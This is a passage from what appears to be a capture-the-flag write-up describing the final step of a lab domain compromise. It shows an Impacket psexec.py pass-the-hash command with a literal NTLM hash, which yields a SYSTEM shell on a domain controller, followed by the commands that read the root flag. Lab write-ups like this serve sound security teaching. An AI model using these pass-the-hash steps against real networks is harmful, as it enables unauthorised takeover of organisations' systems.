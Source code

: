 ## Gaining Remote Access with Impacket PsExec

Since I already had the **NTLM hash of a privileged account**, the next step was to turn it into a remote shell. Impacket’s `psexec.py` makes this straightforward by authenticating with hashes instead of plaintext credentials.

```bash
python3 impacket/examples/psexec.py 'soupedecode.local/FileServer$'@10.201.1.205 \
-hashes 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559'
```

The tool uploaded a service binary, executed it, and dropped me directly into a **SYSTEM-level shell** on the domain controller:

## Root flag.txt
```cmd
cd C:\Users\Administrator\Desktop
type root.txt
```
<img width="560" height="157" alt="image" src="https://github.com/user-attachments/assets/5835451a-0c66-4599-bc65-aa522c0d4c0b" />

**Domain compromise achieved!**
